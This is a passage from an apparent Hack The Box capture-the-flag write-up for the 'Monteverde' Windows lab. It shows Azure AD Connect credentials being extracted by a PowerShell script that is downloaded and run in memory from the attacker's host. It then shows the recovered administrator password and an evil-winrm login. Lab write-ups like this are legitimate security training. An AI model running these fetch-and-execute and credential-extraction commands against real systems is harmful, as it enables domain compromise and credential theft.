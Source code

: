 Turns out the connection string needs a slight tweaking to make it work. Here's the modified SQL connection string: `$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=127.0.0.1;Database=ADSync;Integrated Security=True"`

Now running the PoC successfully decrypted the stored credential, giving us `administrator:d0m@in4dminyeah!`.

```
*Evil-WinRM* PS C:\Users\mhope\Documents> IEX(New-Object Net.WebClient).DownloadString("http://10.10.16.4:8000/adconnectsync.ps1")
AD Connect Sync Credential Extract POC (@_xpn_)

Domain: MEGABANK.LOCAL
Username: administrator
Password: d0m@in4dminyeah!
```

I used this credential to connect with **evil-winrm** as `administrator`, finishing this box.

```
┌──(chronopad㉿VincentXPS)-[~/HTB/newlabs/monteverde-windows]
└─$ evil-winrm -i 10.10.10.172 -u administrator -p 'd0m@in4dminyeah!'

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```
